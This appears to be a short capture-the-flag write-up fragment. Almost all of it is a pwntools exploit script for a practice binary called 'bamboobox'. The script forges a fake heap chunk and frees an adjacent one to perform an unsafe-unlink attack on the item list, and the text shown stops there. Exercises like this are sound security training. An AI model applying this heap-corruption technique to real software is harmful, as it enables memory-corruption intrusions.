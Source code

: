 ![image-20220917131304771](/assets/img/2022/image-20220917131304771.png)

exp:

```python
#encoding=UTF-8
from pwn import *


r = process('./bamboobox')
elf = ELF('./bamboobox')


context.log_level='debug'
context.terminal = ['tmux', 'splitw', '-h']
def debug(cmd=''):
    gdb.attach(r,cmd)
    pause()
    
def add(size, name):
    r.recvuntil('Your choice:')
    r.sendline('2')
    r.recvuntil('Please enter the length of item name:')
    r.sendline(str(size))
    r.recvuntil('Please enter the name of item:')
    r.sendline(name)

def show():
    r.recvuntil('Your choice:')
    r.sendline('1')

def change(index, size, name):
    r.recvuntil('Your choice:')
    r.sendline('3')
    r.recvuntil('Please enter the index of item:')
    r.sendline(str(index))
    r.recvuntil('Please enter the length of item name:')
    r.sendline(str(size))
    r.recvuntil('Please enter the new name of the item:')
    r.sendline(name)

def remove(index):
    r.recvuntil('Your choice:')
    r.sendline('4')
    r.recvuntil('lease enter the index of item:')
    r.sendline(str(index))

def my_exit():
    r.recvuntil('Your choice:')
    r.sendline('5')

add(0x30, 'aaaa') #0
add(0x80, 'bbbb') #1
ptr = elf.symbols['itemlist'] + 8
p = p64(0) # fake prev_size
p += p64(0x31) # fake size
p += p64(ptr-0x18) # fake fd
p += p64(ptr-0x10) # fake bk
p += 'a'*0x10
p += p64(0x30) # fake prev_size
p += p64(0x90) # fake size
change(0, 0x40, p)
remove(1)

```